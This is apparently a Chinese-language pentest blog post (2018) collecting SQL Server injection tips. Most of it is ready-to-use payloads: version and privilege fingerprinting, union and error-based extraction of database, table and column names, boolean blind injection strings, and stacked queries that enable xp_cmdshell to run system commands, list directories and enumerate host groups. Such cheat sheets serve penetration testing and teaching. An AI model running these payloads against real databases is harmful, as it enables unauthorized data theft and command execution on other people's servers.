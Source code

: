 +++
title = "SQL注入tips(SQL Server)"
topics = ["Pentest"]
tags = ["injection"]
description = "SQL Server注入常见的一些注入手法"
date = "2018-09-04T10:09:17+08:00"
draft = false
+++

<!--
 * @Author: reber
 * @Mail: 1070018473@qq.com
 * @Date: 2018-09-04 10:45:01
 * @LastEditTime: 2019-06-20 22:10:16
 -->
### 0x00 基础信息探测
```sql
@@VERSION,@@SERVERNAME,@@SERVICENAME;
--Microsoft SQL Server 2008 (RTM) - 10.0.1600.22 (X64) 
--WIN-2008
--MSSQLSERVER

USER,CURRENT_USER,SESSION_USER,SYSTEM_USER;
--dbo
--dbo
--dbo
--sa

USER_NAME(),HOST_NAME(),HOST_ID(),SUSER_NAME();
--dbo
--wyb
--46530
--sa

USER_ID(),USER_SID();
--1
--<01>

ORIGINAL_LOGIN();
--sa
```

### 0x01 UNION query & error-based 注入
* 判断存在注入

```
and 1=1/and 1=2
```
```
select * from msg where id=1 and 11=(select case when(1=1) then 11 else 2 end);

select * from msg where id=1 and 11=(select case when(1=2) then 11 else 2 end);
```

* 判断是否为sa权限

```
select name from msg where id=1 and 1=convert(int,(select IS_SRVROLEMEMBER('sysadmin')));
```

![55](/img/post/20180904-105516.png)

* 得到所有数据库名字
![75](/img/post/20180904-110306.png)
```
--报错得到数据库名，前6个是系统自带的数据库，所以从第7个开始，dbid依次增加即可得到所有数据库
select id,name from msg where id=1 and 0<>(select name from master.dbo.sysdatabases where dbid=7);
```
![75](/img/post/20180904-151240.png)

* 得到数据库test的所有表名（用户创建的表xtype的值是U）
![70](/img/post/20180904-111912.png)

```
--得到数据库test的第一张表
select id,name from msg where id=-1 union select top 1 id,name from test.dbo.sysobjects where xtype='U';

--得到数据库test的第二张表
select id,name from msg where id=-1 union select top 1 id,name from test.dbo.sysobjects where xtype='U' and name not in ('article');
```
![80](/img/post/20180904-151551.png)

* 得到数据库test的表article的所有列名
    * 可以分两步：先得到article的表id，然后得到列名
    ![60](/img/post/20180904-112859.png)
    ![75](/img/post/20180904-112938.png)

    * <f>也可直接一条命令直接得到列信息</f>
    ```
    select id,name from syscolumns where id=(select id from sysobjects where name='msg');
    ```

* 得到数据库test的表article的数据
![75](/img/post/20180904-113720.png)

### 0x02 boolean-based blind 注入
```
?id=1 and substring(db_name(),1,1)='a' --
?id=1 and substring(db_name(),1,1)='b' --
```

```sql
?id=1 and unicode(substring((select db_name()),1,1))>88 --
?id=1 and ascii(substring((select db_name()),1,1))>88 --
```

### 0x03 Stacked 注入
* 执行系统命令

```bash
#判断xp_cmdshell是否被删除
?id=1 and 1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell');

#开启xp_cmdshell
?id=1;exec sp_configure 'show advanced options',1;reconfigure;exec sp_configure 'xp_cmdshell',1;reconfigure;--

#使用xp_cmdshell执行命令
exec master..xp_cmdshell 'whoami';
```

* 文件操作

```
#列目录、文件
exec master..xp_dirtree 'c:\wwwroot',1 #列c:\wwwroot下的文件夹 
exec master..xp_dirtree 'c:\wwwroot',1,1 #列c:\wwwroot下的文件夹和文件

exec master..xp_subdirs 'c:\wwwroot' #列c:\wwwroot下的文件夹

#显示系统可用盘符
exec master..xp_availablemedia
```

* 主机、中间件信息

```
#获得MS SQL的版本号
exec master..sp_msgetversion

#列出服务器上所有windows本地用户组
exec master..xp_enumgroups

#得到当前sql server服务器的计算机名称
exec master..xp_getnetname

#服务器安全模式信息
exec master..xp_loginconfig
```
